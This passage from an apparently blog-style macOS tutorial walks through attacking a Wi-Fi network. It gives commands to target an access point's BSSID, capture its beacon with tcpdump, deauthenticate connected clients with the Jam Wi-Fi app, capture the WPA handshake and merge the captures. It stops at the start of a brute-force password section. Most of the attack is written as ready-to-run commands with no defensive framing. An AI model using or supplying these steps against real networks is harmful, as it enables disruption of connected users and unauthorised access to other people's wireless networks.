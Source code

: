 5. Copy the BSSID (my BSSID=`6e:57:ca:24:09:8c`) of the target Access Point.
```
export BSSID=6e:57:ca:24:09:8c
```

## capturing a traffic

1. Run a command to help find a wireless interface (`en0`)
```
networksetup -listallhardwareports
```
The result:
```
Hardware Port: Wi-Fi
Device: en0
Ethernet Address: .......
```

2. Disassociate a network
```
sudo airport -z
```

3. Set the channel. Do not put a space between `-c` and the channel
```
sudo airport -c1
```

4. Capture a **beacon** frame from the access point. This command will create a new file `beacon.cap`, which is the gathered data from the target access point.
```
sudo tcpdump "type mgt subtype beacon and ether src $BSSID" -I -c 1 -i en0 -w beacon.cap
```

5. Deauth connected devices with **Jam Wi-Fi** app. Open the app. Press **Scan**, chose the target network and press **Monitor**, then press **Do It!** to restart all connections. Wait 15 seconds and press **Done**
[![deauth-clients]({{ site.url }}{{ site.baseurl }}/assets/images/wifi-crack/jamwifi.png)]({{ site.url }}{{ site.baseurl }}/assets/images/wifi-crack/jamwifi.png){: .align-center}

6. When you "Done" with death, run quickly next command. You have to capture a **handshake** in time
```
sudo tcpdump "ether proto 0x888e and ether host $BSSID" -I -U -vvv -i en0 -w handshake.cap
```
Wait until you see some gotten frames, like this
```
Got 19
```
After you have it press `"Control + C"` to stop capturing.

7. Merge the Beacon and Handshake
```
mergecap -a -F pcap -w capture.cap beacon.cap handshake.cap
```

## brute forcing
> - Brute Force — A brute-force attack consists of an attacker submitting many passwords or passphrases with the hope of eventually guessing correctly.
> - Wordlist — A written collection of all words derived from a particular source.
